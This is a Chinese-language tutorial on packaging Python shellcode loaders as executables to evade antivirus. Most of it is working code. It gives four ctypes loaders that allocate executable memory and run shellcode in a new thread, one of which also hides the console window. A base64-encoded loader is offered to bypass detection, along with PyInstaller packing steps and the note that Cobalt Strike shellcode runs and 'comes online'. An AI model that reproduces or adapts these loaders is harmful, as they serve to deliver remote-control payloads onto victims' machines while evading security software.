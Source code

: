 # 0x00 简介

其实用python go等语言打包成exe来免杀非常不错，这里我使用python 其他语言类似，这种方式就是打包的文件很大

Python打包工具有三种py2exe、PyInstaller和cx_Freeze,我这里使用的是PyInstaller。

其实用python来加载shellcode 在2012之前国外都有人发过文章了,各种加载方式,有些但是执行不成功，所以我这里整理了几种


# 0x01 shellcode->python

python 执行shellcode主要用到模块ctypes来使用和C兼容的数据类型 以下是网络流传的执行shellcode的代码

1.

```
#!/usr/bin/python
import ctypes

shellcode = bytearray("\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b")

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
 
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))
 
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))

```

2.


```
from ctypes import *

shellcode = ""
shellcode_one = create_string_buffer(shellcode, len(shellcode))
shellcode_run = cast(shellcode_one, CFUNCTYPE(c_void_p))
shellcode_run()

```

3.

```
from ctypes import *
import ctypes
buf =  ""
#libc = CDLL('libc.so.6')
PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4
def executable_code(buffer):
    buf = c_char_p(buffer)
    size = len(buffer)
    addr = libc.valloc(size)
    addr = c_void_p(addr)
    if 0 == addr: 
        raise Exception("Failed to allocate memory")
    memmove(addr, buf, size)
    if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
        raise Exception("Failed to set protection on buffer")
    return addr
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)
whnd = ctypes.windll.kernel32.GetConsoleWindow()   
if whnd != 0:
       if 1:
              ctypes.windll.user32.ShowWindow(whnd, 0)   
              ctypes.windll.kernel32.CloseHandle(whnd)
memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)),0x40,ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),
                                     buf,
                                     ctypes.c_int(len(shellcode)))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()

```

4.

```
import ctypes

shellcode =  ""

rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(rwxpage, ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)

```


用CS生成python shellcode 写入后运行成功上线就可以打包成exe了，这里用PyInstaller为例 

> PyInstaller --console --onefile shellcode_encoder.py

![Cobalt Strike ](./img/2.5.1.png)


# 0x02 encodeshellcode->python

通过简单的base64编码来绕过AV的查杀

```
import ctypes
import base64

encode_shellcode = "/OiJAAAAYInlMdJki1Iwi1IMi1IUi3IoD7dKJjH/McCsPGF8Aiwgwc8NAcfi8FJXi1IQi0I8AdCL"

shellcode = base64.b64decode(encode_shellcode)

rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(rwxpage, ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)

```

当然你也可以把整个代码base64加密然后用 `exec`  来执行 比如`exec(base64.b64decode("encode"))`

自己写个简单的加密很容易就达到绕过AV查杀的目的,并不是很推荐使用base64可以使用密匙来对称加密。

![Cobalt Strike ](./img/2.5.2.png)

# 0x03 文末


### 本文如有错误，请及时提醒，以免误导他人
